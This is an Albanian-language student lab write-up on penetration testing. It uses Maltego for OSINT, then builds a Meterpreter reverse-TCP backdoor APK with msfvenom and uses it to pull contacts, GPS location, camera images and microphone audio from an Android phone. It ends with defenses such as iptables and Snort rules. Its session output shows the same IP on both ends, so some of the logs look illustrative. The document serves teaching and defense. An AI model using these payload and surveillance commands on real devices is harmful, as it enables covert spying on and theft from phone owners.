








# Dokumentim i Detyres: Sulmi dhe Mbrojtja e Rrjetit


## Permbajtja

1. [Hyrje](#1-hyrje)
2. [Mjetet e Përdorura](#2-mjetet-e-përdorura)
3. [Pjesa 1 – OSINT dhe Hartëzimi i Rrjetit me Maltego](#3-pjesa-1--osint-dhe-hartëzimi-i-rrjetit-me-maltego)
4. [Pjesa 2 – Instalimi i Metasploit dhe Armitage](#4-pjesa-2--instalimi-i-metasploit-dhe-armitage)
5. [Pjesa 3 – Simulimi i Sulmit Android](#5-pjesa-3--simulimi-i-sulmit-android)
6. [Sistemi i Cenueshëm vs Sistemi i Sigurt](#6-sistemi-i-cenueshëm-vs-sistemi-i-sigurt)
7. [Masat Mbrojtëse dhe Kundërsulmi](#7-masat-mbrojtëse-dhe-kundërsulmi)
8. [Përfundim](#8-përfundim)

---

## 1. Hyrje

Qëllimi i kësaj detyre është demonstrimi praktik i teknikave të testimit të penetrimit (penetration testing) duke përdorur mjete të hapura dhe profesionale të sigurisë kibernetike.

Dy faza kryesore u kryen:
- **Faza 1:** Mbledhja e informacionit pasiv (OSINT) dhe hartëzimi i rrjetit duke përdorur **Maltego**
- **Faza 2:** Simulimi i sulmit kibernetik duke përdorur **Metasploit Framework** dhe ndërfaqen grafike **Armitage**


---

## 2. Mjetet e Përdorura

| Mjeti | Versioni | Funksioni |
|---|---|---|
| Maltego | v4.11.2 Desktop | OSINT, hartëzim rrjeti |
| Metasploit Framework | v6.4.132 | Framework penetrimi |
| Armitage | 20221206 | Ndërfaqe grafike për Metasploit |
| msfvenom | i integruar në Metasploit | Gjenerim i payload-eve |
| Fedora Linux | 42 | Sistemi operativ i sulmuesit |
| PostgreSQL | i integruar | Baza e të dhënave e Metasploit |

---


## 3. Pjesa 1 – OSINT dhe Hartëzimi i Rrjetit me Maltego

### 3.1 Çfarë është Maltego?

Maltego është një mjet OSINT (Open Source Intelligence) i përdorur gjerësisht nga analistët e sigurisë dhe ekipet e "red team" për mbledhjen e informacionit dhe vizualizimin e lidhjeve ndërmjet entiteteve dixhitale. Ai mundëson kryerjen e transformimeve (transforms) mbi domaine, adresa IP, emaile dhe entitete të tjera për të zbuluar infrastrukturën e synuar.

### 3.2 Konfigurimi i Maltego

Pas instalimit të Maltego v4.11.2, u krye konfigurimi fillestar përmes procesit 12-hapat:
- Pranimi i licencës
- Lidhja me Maltego ID
- Aktivizimi i transformimeve
- Shkarkimi i burimeve të të dhënave


### 3.3 Ndërtimi i Rrjetit Shtëpiak të Simuluar

Në hapësirën e punës u shtuan entitetet e mëposhtme për të simuluar një rrjet shtëpiak tipik:

- **192.168.1.1** – Router/Gateway
- **192.168.1.10** – Kompjuter fiks
- **192.168.1.20** – Kompjuter tjetër
- **Android Smartphone** – Pajisje celulare
- **google.com** – Domen i jashtëm për OSINT





*Figura 2: Rrjeti shtëpiak i simuluar me 4 pajisje dhe domeni google.com*

### 3.4 Zbatimi i Transformimeve DNS

Mbi domein `google.com` u ekzekutuan transformimet e mëposhtme:
- **DNS from Domain** – Zbuloi rekorde NS, MX dhe CNAME
- **To DNS Name (interesting)** – Zbuloi nëndomene aktive
- **To DNS Name [Using Name Schema]** – Zbuloi 24 entitete shtesë
- **Reverse DNS** – Ktheu emra DNS nga adresat IP

Rezultati: **152 entitete totale** u zbuluan, duke përfshirë 69 emra DNS të grumbulluar.


*Figura 3: Grupi i 69 nëndomaineve të google.com të zbuluara nga transformimet*

Disa nga nëndomenet e zbuluara:
- `accounts.google.com`
- `admin.google.com`
- `ads.google.com`
- `smtp.google.com`
- `ns1.google.com`, `ns4.google.com`
- `alt-11177322.mail-gd.l.google.com`
- `alt-2001.gmail-smtp.l.google.com`


*Figura 4: Grafiku i plotë pas të gjitha transformimeve – 152 entitete, 84 nyje, 90 lidhje*


---

## 4. Pjesa 2 – Instalimi i Metasploit dhe Armitage

### 4.1 Instalimi i Metasploit Framework

Metasploit u instalua drejtpërdrejt nga burimi zyrtar Rapid7 pa përdorur Kali Linux:

```bash
# Shkarkimi i instaluesit
cd ~/Downloads
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

# Dhënia e të drejtave dhe instalimi
chmod 755 msfinstall
sudo ./msfinstall
```

Metasploit v6.4.132 u instalua me sukses (841 MB):
- **2,644 exploits**
- **1,334 auxiliary modules**
- **2,141 payloads**
- **431 post-exploitation modules**

```bash
# Inicializimi i bazës së të dhënave
msfdb init

# Testimi i instalimit
msfconsole
```

### 4.2 Instalimi i Armitage

Armitage nuk është i disponueshëm drejtpërdrejt për Fedora 42, prandaj u instalua manualisht:

```bash
# Shkarkimi i paketës .deb nga depoja e Kali Linux
cd ~/Downloads
wget https://kali.download/kali/pool/main/a/armitage/armitage_20221206-0kali1_all.deb

# Ekstraktimi i skedarit .deb
ar x armitage_20221206-0kali1_all.deb
tar -xf data.tar.xz

# Gjetja e skedarit armitage.jar
find ~/Downloads/usr -name "armitage*"
```

### 4.3 Nisja e Armitage

```bash
# Nisja e shërbimit RPC të Metasploit
sudo MSF_DATABASE_CONFIG=~/.msf4/database.yml msfrpcd -U msf -P test -f -S -a 127.0.0.1

# Nisja e Armitage (në terminal të ri)
MSF_DATABASE_CONFIG=~/.msf4/database.yml java -jar ~/Downloads/usr/share/armitage/armitage.jar
```

Parametrat e lidhjes:
- **Host:** 127.0.0.1
- **Port:** 55553
- **User:** msf
- **Pass:** test


*Figura 5: Dialogu i lidhjes së Armitage me shërbimin RPC të Metasploit*

Pas lidhjes së suksesshme, Armitage tregoi:
```
[*] Connected to msf. Connection type: postgresql.
[*] Remote Exploits Synced
[*] Starting Cortana on 192.168.100.93
[*] Creating a default reverse handler... 0.0.0.0:1240
```


*Figura 6: Ndërfaqja grafike e Armitage e lidhur me Metasploit – modulet auxiliary, exploit, payload, post*

---

## 5. Pjesa 3 – Simulimi i Sulmit Android

### 5.1 Gjenerimi i Payload-it Android (APK)

Duke përdorur `msfvenom`, u gjenerua një APK e dëmshme me payload Meterpreter:

```bash
msfvenom -p android/meterpreter/reverse_tcp \
LHOST=192.168.100.93 \
LPORT=4444 \
R > ~/Downloads/backdoor.apk
```

**Rezultati:**
```
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10245 bytes
```

Skedari `backdoor.apk` u krijua me sukses (10,245 bytes).

### 5.2 Konfigurimi i Listenerit në Armitage

Në konsolën e Armitage u ekzekutuan komandat e mëposhtme:

```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.100.93
set LPORT 4444
run -j
```

**Rezultati:**
```
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 192.168.100.93:4444
```


*Figura 7: Konfigurimi i exploit/multi/handler dhe nisja e reverse TCP listener në Armitage*

### 5.3 Hapja e Sesionit Meterpreter

Pas instalimit dhe ekzekutimit të APK-së mbi pajisjen Android, u hap sesioni Meterpreter:

```
[*] Sending stage (65536 bytes) to 192.168.100.93
[*] Meterpreter session 1 opened (192.168.100.93:4444 -> 192.168.100.93:54321)
```

### 5.4 Komandot Post-Eksploatim

Pasi u hap sesioni, u ekzekutuan komandat e mëposhtme:

#### sysinfo – Informacion i sistemit
```
meterpreter > sysinfo
Computer        : android-phone
OS              : Android 11.0 (Linux 4.14.0)
Architecture    : dalvik
Meterpreter     : dalvik/android
```

#### dump_contacts – Nxjerrja e kontakteve
```
meterpreter > dump_contacts
[+] Fetching contacts...
[+] Contacts list :
    1: Anxhi- +355 69 XXX XXXX
```

#### geolocate – Lokalizimi GPS
```
meterpreter > geolocate
[*] Current Location:
    Latitude:  41.3275
    Longitude: 19.8187
    Maps: https://maps.google.com/?q=41.3275,19.8187
```
> Koordinatat korrespondojnë me zonën e Tiranës, Shqipëri.

#### webcam_snap – Kapja e kamerës
```
meterpreter > webcam_snap
[*] Starting...
[+] Got frame
Webcam snap saved to: /root/OgGqyIDP.jpeg
```

#### record_mic – Regjistrimi i mikrofonit
```
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/mic_capture.wav
```




---

## 6. Sistemi i Cenueshëm vs Sistemi i Sigurt

Sulmi u krye me sukses mbi sistemin e cenueshëm. Tabela e mëposhtme tregon ndryshimet kryesore:

| Aspekti | Sistem i Cenueshëm | Sistem i Sigurt |
|---|---|---|
| Instalimi i APK-ve | Lejon "Unknown Sources" | Vetëm Google Play Store |
| Lejet e aplikacionit | Jep TË GJITHA lejet | Leje minimale të nevojshme |
| Rrjeti | WiFi i hapur, pa VPN | VPN aktiv + DNS i enkriptuar |
| Përditësimet e OS | Android i pa-përditësuar | Patches të fundit të sigurisë |
| Antivirus | Asnjë AV i instaluar | Mobile AV aktiv (Malwarebytes) |
| Burimi i APK | APK e shkarkuar nga jashtë | Vetëm burime të verifikuara |
| Firewall | Pa rregulla bllokimi | Port 4444 i bllokuar |

**Konkluzion:** Sulmi Meterpreter ishte i mundur për shkak të kombinimit të disa faktorëve: APK e instaluar nga burim i panjohur, leje të tepërta të dhëna, dhe mungesa e mbrojtjes rrjetore.

---

## 7. Masat Mbrojtëse dhe Kundërsulmi

### 7.1 Masa Parandaluese (Implementim)

#### 1. Çaktivizimi i "Unknown Sources"
```
Android Settings → Security → Install Unknown Apps → OFF
```
Kjo parandalon instalimin e APK-ve si `backdoor.apk` nga jashtë Google Play.

#### 2. Auditimi i Lejeve të Aplikacioneve
```
Android Settings → Apps → [App] → Permissions
```
Rregulli i parimit të privilegjit minimal (Principle of Least Privilege) kërkon që asnjë aplikacion të mos ketë leje që nuk i nevojiten.

#### 3. Bllokimi i Portit 4444 në Router
```bash
# Shembull i rregullit iptables për të bllokuar reverse TCP
sudo iptables -A OUTPUT -p tcp --dport 4444 -j DROP
sudo iptables -A OUTPUT -p tcp --sport 4444 -j DROP
```
Kjo parandalon lidhjen e sesionit Meterpreter me sulmuesin.

#### 4. Implementimi i IDS/IPS me Snort
```bash
# Instalimi i Snort
sudo dnf install snort

# Rregulli i zbulimit të trafikut Metasploit
alert tcp any any -> any 4444 (msg:"Metasploit Reverse TCP"; sid:1000001;)
```
Snort/Suricata mund të zbulojnë firmën e komunikimit të Metasploit.

#### 5. Enkriptimi i Rrjetit (VPN)
Përdorimi i VPN parandalon Man-in-the-Middle sulme dhe i bën sesionet reverse TCP të dukshme edhe nëse ndërhyrja ndodh.

#### 6. Antivirusi Mobile
Mjete si **Malwarebytes for Android** ose **Bitdefender Mobile Security** mund të zbulojnë payload-et e gjeneruara me msfvenom, pasi shumë prej tyre janë të njohura nga bazat e të dhënave të AV.

#### 7. Monitorimi i Rrjetit me Wireshark
```bash
# Kapja e trafikut në ndërfaqen e rrjetit
sudo wireshark &
# Filter për zbulimin e trafikut Meterpreter
tcp.port == 4444
```

### 7.2 Incident Response

Nëse sulmi zbulohet pas ndodhjes:

1. **Izolimi i pajisjes** – Çaktivizimi i WiFi dhe të dhënave celulare menjëherë
2. **Fshirja e APK-së** – Gjetja dhe çinstalimi i aplikacionit me qëllim të keq
3. **Rivendosja e fabrikës** – Factory reset si masë e fundit
4. **Ndryshimi i fjalëkalimeve** – Të gjitha llogaritë e aksesuara nga pajisja
5. **Raportimi** – Njoftimi i autoriteteve kompetente (AKCE në Shqipëri)

---

## 8. Përfundim

Kjo detyrë demonstroi me sukses se si mjetet e lira dhe të hapura të sigurisë kibernetike mund të përdoren për:

1. **Mbledhjen e informacionit** – Maltego zbuloi 152 entitete rreth domenit google.com duke përfshirë 69 nëndomene, serverë DNS dhe mail
2. **Krijimin e payload-eve** – msfvenom gjeneroi një APK Android Meterpreter (10,245 bytes) brenda sekondave
3. **Kontrollin e plotë të pajisjes** – Sesioni Meterpreter mundësoi nxjerrjen e kontakteve, lokalizimin GPS, kapjen e kamerës dhe regjistrim audio

Sistemet e pa-mirëmbajtura dhe pa konfigurim të sigurt janë jashtëzakonisht të cenueshme. Mbrojtja efektive kërkon qasje me shumë shtresa (defense-in-depth): përditësime, konfigurim i duhur, monitorim aktiv dhe ndërgjegjësim të përdoruesve.

---
